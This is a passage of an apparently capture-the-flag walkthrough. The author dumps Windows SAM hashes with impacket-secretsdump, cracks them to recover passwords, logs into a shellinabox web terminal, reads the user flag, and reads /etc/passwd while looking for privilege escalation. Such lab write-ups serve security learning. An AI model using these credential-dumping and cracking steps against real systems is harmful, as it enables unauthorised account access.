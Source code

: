``` bash
```

Lets checkout the HTTPS shell in a box. We get a login to the machine (shellinabox is a framework to run commands from a web browser)

Lets use impacket to dump the SAM and SYSTEM data asuming its Windows creds (which is fair given the file names):

``` bash
impacket-secretsdump -sam sam.bak -system system.bak local

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x042145cf7279c87791fa907cd6d9bccd
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
[*] Cleaning up... 
```

So here we have NTLM and LM hashes for users, lets crackstation this.

Dumper has the password "1dumper"

Then admin has the password blabla.

We go to the 4200 port and login:

``` bash
dump login: dumper                                                                  

Password:                                                                           

Linux dump 4.19.0-26-amd64 #1 SMP Debian 4.19.304-1 (2024-01-09) x86_64             

dumper@dump:~$ ls                                                                   

user.txt                                                                            

dumper@dump:~$ cat user.txt                                                         

cfbe86765c16e9bf8ddc3739f4f270a9
```

Sadly we cant seem to login as admin OR use su OR use sudo -l.

There's nothing on the crontab too.

But heres the thing, this is a Linux machine, and the cred were obviously Windows, so it's fair to expect we wont be able to login as admin.

``` bash
dumper@dump:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash                               
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin               
bin:x:2:2:bin:/bin:/usr/sbin/nologin                          
sys:x:3:3:sys:/dev:/usr/sbin/nologin                          
sync:x:4:65534:sync:/bin:/bin/sync                            
games:x:5:60:games:/usr/games:/usr/sbin/nologin               
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin               
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                   
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin             
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin           
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                    
```